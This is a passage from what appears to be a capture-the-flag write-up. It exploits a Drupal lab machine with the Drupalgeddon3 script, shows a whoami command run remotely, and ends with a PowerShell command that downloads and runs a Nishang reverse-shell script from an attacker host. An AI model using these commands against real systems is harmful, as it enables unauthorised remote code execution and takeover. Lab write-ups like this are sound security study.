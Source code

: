 
I also will want to get the node id of an existing node. If I click on
"Find Content", I can get a list of current content:

![](/img/1551979251624.png)

![](/img/1551979276991.png)

Clicking on the "REST" link takes me to `http://10.10.10.9/node/1`, so
I'll take it that node 1 exists.

#### Exploit

There's a [python
script](https://raw.githubusercontent.com/oways/SA-CORE-2018-004/master/drupalgeddon3.py)
to execute the attack for me. I'll grab a copy and run it to see it
requires the url, the session cookie, an existing node, and the command:



    root@kali# python drupalgeddon3.py 

    [Usage]
    python drupalgeddon3.py [URL] [Session] [Exist Node number] [Command]

    [Example]
    python drupalgeddon3.py http://target/drupal/ "SESS60c14852e77ed5de0e0f5e31d2b5f775=htbNioUD1Xt06yhexZh_FhL-h0k_BHWMVhvS6D7_DO0" 6 "uname -a"



Using the cookie info from the first exploit and the node I found
earlier, I can now get RCE:



    root@kali# python drupalgeddon3.py http://10.10.10.9/ "SESSd873f26fc11f2b7e6e4aa0f6fce59913=GCGJfJI7t9GIIV7M7NLK8ARzeURzu83jxeqI2_qcDGs" 1 "whoami"
    nt authority\iusr



#### Shell - Nishang

So I can get a shell this way with Nishang:



    root@kali# python drupalgeddon3.py http://10.10.10.9/ "SESSd873f26fc11f2b7e6e4aa0f6fce59913=GCGJfJI7t9GIIV7M7NLK8ARzeURzu83jxeqI2_qcDGs" 1 "powershell iex(new-object net.webclient).downloadstring('http://10.10.14.14/shell.ps1')"
